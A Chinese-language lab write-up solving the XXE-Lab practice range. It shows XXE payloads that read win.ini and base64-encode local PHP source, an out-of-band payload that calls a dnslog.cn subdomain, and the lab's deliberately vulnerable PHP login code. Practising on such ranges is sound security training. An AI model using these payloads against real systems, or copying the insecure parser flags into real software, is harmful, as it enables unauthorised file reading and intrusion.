

# XXE-Lab靶场全解

项目地址：[c0ny1/xxe-lab: 一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)

靶场搭建简单，不表


## 前情提要

XXE(XML EXternal Entity Injection)，XML外部实体注入

利用外部实体声明部分的“SYSTEM”关键词导致XML解析器可以从本地文件或者远程URI中读取受保护的数据。


点进去一看就是一个登录页面，随便输入`admin/password`，抓包查看


看得出来post数据是以xml的形式传递给`/deLogin.php`进行解析处理的


## 文件读取

### 绝对路径读取

那我们丢`Repeater`里尝试一下


```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>admin&xxe;</username><password>password</password></user>
```




可以看出来，成功进行了XXE注入


### 相对路径读取

试着读取`xxe-lab-master`的`doLogin.php`文件，相对路径读取也是可以的：

```
PHP://filter/read=convert.base64-encode/resource=doLogin.php
```


```
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "PHP://filter/read=convert.base64-encode/resource=doLogin.php"> ]>
<user><username>admin&xxe;</username><password>password</password></user>
```


## 外带测试无回显

假设没有回显，XXE可以访问外部的url

DNSLog.cn平台

[DNSLog Platform](http://www.dnslog.cn/)

`Get SubDomain`之后将域名替换掉

```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
 <!ENTITY % file SYSTEM "http://saqnft.dnslog.cn">
 %file;
]>
<user><username>admin&send;</username><password>password</password></user>
```

页面返回无回显，但是DNSLog的记录中显示已经存在。


## 源码解读

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

